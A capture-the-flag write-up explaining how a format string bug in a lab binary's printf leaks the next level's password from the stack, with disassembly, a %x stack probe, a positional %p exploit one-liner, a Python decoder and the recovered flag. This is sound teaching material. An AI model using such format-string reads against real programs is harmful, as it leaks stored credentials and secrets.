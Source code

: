 # Format string attack again
On this level we have another authentication system, we notice on theses lines that our program recovers the password from the next level to write it on the stack :

    0000000000400814 <main>:
    ...
    40089d:	b8 b2 0b 40 00       	mov    $0x400bb2,%eax
    4008a2:	48 89 d6             	mov    %rdx,%rsi
    4008a5:	48 89 c7             	mov    %rax,%rdi
    4008a8:	e8 53 fe ff ff       	callq  400700 <fopen@plt>
    ...
    4008e6:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
    4008ed:	48 8b 55 f8          	mov    -0x8(%rbp),%rdx
    4008f1:	48 89 d1             	mov    %rdx,%rcx
    4008f4:	ba 29 00 00 00       	mov    $0x29,%edx
    4008f9:	be 01 00 00 00       	mov    $0x1,%esi
    4008fe:	48 89 c7             	mov    %rax,%rdi
    400901:	e8 8a fd ff ff       	callq  400690 <fread@plt>


Content of **0x400bb2** :

    (gdb) x/s 0x400bb2
    0x400bb2:        "/home/users/level03/.pass"





Subsequently we can notice a **`printf()`** which prints the username, therefore an entry from us.

Since the password resides on the stack and **`printf()`** is vulnerable to format string attacks, we'll use it to read into memory this time.

 The **$RSP** has been subtracted from **0x120** Bytes at the prolog, and the contents of the next level password are set to **` $RBP-0xa0`**,  so we need to determine an offset. To do this, we know that the buffer that **`printf()`** uses starts at **` $RBP-0x70`**, so if we guess the position of this buffer in the stack, we could calculate the exact position of the password located at **` $RBP-0xa0`**.

The stack frame contains in the 28th position our buffer from the start at the time of printf execution.



    --[ Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 

    AAAA ffffe3d0 0 61 2a2a2a2a 2a2a2a2a ffffe5c8 f7ff9a08 647361 0 0 0 0 0 0 0 0 0 0 0 0 0 34376848 61733951 574e6758 6e475873 664b394d 0 41414141 25207825 20782520 78252078  does not have access!



```
|---------------------|
|        AAAA         | <--- Buffer location 0x70 (At 28th position from the printf stackframe)
|---------------------|
|     48 Bytes Gap    |
|---------------------|
|   ***************   | <--- Password location 0xa0
|---------------------|
|         ...         |
|---------------------|
|         ...         | <--- printf() stackframe
|---------------------|
|         ...         | <--- printf() stackframe
|---------------------|
|         ...         | <--- printf() stackframe
|---------------------|

```

Given that between the buffer & password location we have a space of 48 bytes, we divide **`48 / 8 = 6`**, because a position with our specified type is equal to 8 bytes, consequently we must subtract 6 positions from 28 which leaves us at position 22th. Our password is exactly 41 bytes, so we need 5 %p and respect the little little endianness convention.

Here is the python script which allows us to convert the hexa little endian format into our flag.

```py
python -c 'print "%26$p %25$p %24$p %23$p %22$p\n"' | ./level02
```


```py
def little_endian_to_big_endian(hex_string):
    if len(hex_string) % 2 != 0:
        raise ValueError("Format error")
    hex_pairs = [hex_string[i:i+2] for i in range(0, len(hex_string), 2)]
    big_endian_hex = ''.join(reversed(hex_pairs))
    return big_endian_hex

def hex_to_ascii(hex_string):
    hex_string = hex_string.replace('0x', '')
    hex_string = little_endian_to_big_endian(hex_string)
    ascii_string = bytes.fromhex(hex_string).decode('utf-8')
    return ascii_string

hex_strings = [
    "0x756e505234376848",
    "0x45414a3561733951",
    "0x377a7143574e6758",
    "0x354a35686e475873",
    "0x48336750664b394d"
]

concatenated_ascii = ""

for hex_str in hex_strings:
    concatenated_ascii += hex_to_ascii(hex_str)

print("Concatenated ASCII: ", concatenated_ascii)

```

> flag : Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
